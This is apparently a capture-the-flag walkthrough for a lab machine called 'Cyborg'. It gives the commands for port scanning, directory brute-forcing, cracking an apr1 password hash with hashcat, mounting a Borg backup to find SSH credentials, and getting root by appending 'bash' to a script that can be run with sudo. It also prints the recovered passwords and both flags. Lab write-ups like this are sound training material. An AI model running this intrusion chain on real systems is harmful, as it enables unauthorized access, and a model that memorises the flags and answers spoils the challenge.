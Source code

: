 # Cyborg

--------------------------------------------------------------------

**TOOLS USED**: nmap, feroxbuster, hashcat, borg

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.229.132

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info
-p-: scan all ports
-T SCAN_SPEED (0-5)
```
nmap -sC -sV -p- -T 5 10.10.229.132
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Enumerate hidden directories on webserver
```
feroxbuster -u http://10.10.229.132 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![1.2](./imgs/1.2.png)

Directory of Interest: /admin, /etc

![1.3](./imgs/1.3.png)

**USERNAME**: alex

Look for music archive<br>

![1.4](./imgs/1.4.png)

squid config files publicly available<br>
http access allowed

music_archive found

![1.5](./imgs/1.5.png)

**PASSWORD HASH**: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn. 

also downloaded archive from 10.10.229.132/admin/archive.tar

archive is Borg Backup repo

### 2. CRACK HASH

```
hash-identifier
```
![2.1](./imgs/2.1.png)

**HASH TYPE**: md5 (apr)

```
echo "\$apr1\$BpZ.Q.1m\$F0qqPwHSOG50URuOVQTTn." > hash
hashcat -a0 -m1600 hash /usr/share/wordlists/rockyou.txt.gz
```

![2.2](./imgs/2.2.png)

**PASSWORD**: squidward

### 3. BORG BACKUP

Install borgbackup and restore backup
```
sudo apt install borgbackup
mkdir borg
borg mount home/field/dev/final_archive borg
```

![3.1](./imgs/3.1.png)

Now we have access to alex's home directory backup

**PASSWORD**: S3cretP@s3

![3.2](./imgs/3.2.png)

### 4. SSH LOGIN

```
ssh alex@10.10.229.132
```

![4.1](./imgs/4.1.png)

**USER FLAG**: flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}

### 5. PRIVILEGE ESCALATION

check privileges
```
sudo -l
```

![5.1](./imgs/5.1.png)

alex can run /etc/mp3backups/backup.sh as root without a password

```
ls -l /etc/mp3backups/backup.sh
```

![5.2](./imgs/5.2.png)

alex owns backup.sh so we can make it writable and inject our own code

```
chmod 777 /etc/mp3backups/backup.sh
echo "bash" >> /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh
```

![5.3](./imgs/5.3.png)

**ROOT FLAG**: flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}